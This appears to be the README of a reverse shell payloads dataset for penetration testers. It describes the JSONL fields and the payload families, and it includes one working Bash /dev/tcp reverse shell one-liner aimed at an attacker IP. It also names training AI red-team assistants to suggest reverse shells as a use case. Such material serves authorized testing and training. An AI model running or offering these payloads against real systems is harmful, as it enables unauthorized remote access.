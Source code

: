 
# 🐚 Reverse Shell Payloads Dataset

A curated and structured dataset of **reverse shell payloads** used by penetration testers, red teams, and ethical hackers to establish remote command-line access during security assessments.

This dataset provides a diverse set of payloads across multiple platforms and scripting languages, including Bash, PowerShell, Python, Perl, and Netcat.

---

## 📁 Dataset Format

The dataset is provided in `.jsonl` (JSON Lines) format — each line represents a single reverse shell payload with its associated metadata.

### Example Entry:

```json
{
  "id": "rshell-001",
  "language": "bash",
  "payload": "bash -i >& /dev/tcp/10.10.14.1/4444 0>&1",
  "description": "Basic Bash TCP reverse shell connecting to attacker host.",
  "platform": "Linux",
  "requires_netcat": false,
  "obfuscated": false,
  "tag": ["tcp", "bash"]
}
🔍 Fields Description
Field	Description
id	      Unique identifier for the payload
language	    Language used (e.g., Bash, Python, PowerShell)
payload	      Full reverse shell command
description	    Explanation of how the payload works
platform	    Target OS (e.g., Linux, Windows)
requires_netcat	     Whether the payload depends on netcat (nc)
obfuscated	     Whether the payload is encoded or obfuscated
tag
List of tags    (e.g., tcp, bash, obfuscated)

🧪 Payload Types Included

    🐧 Bash TCP & UDP shells

    🪟 PowerShell with/without obfuscation

    🐍 Python one-liners

    🦀 Perl reverse shells

    🛠️ Netcat variations (-e, named pipes, backconnects)

    🧬 Base64-encoded / eval / hidden commands

✅ Use Cases

    Red team cheat sheets and playbooks

    CTFs and pentesting simulations

    LLM red team assistant training (e.g., “Suggest a reverse shell”)

    Automated payload generators

    Adversary emulation platforms

⚠️ Disclaimer

This dataset is for educational and authorized penetration testing purposes only. Do not use these payloads on systems you do not own or have permission to test.
📜 License

Released under the MIT License.
🤝 Contributions

Want to add more reverse shells? PRs welcome for:

    Different scripting languages

    Obfuscation styles

    Encoded or encrypted payloads

    Staged connection shells
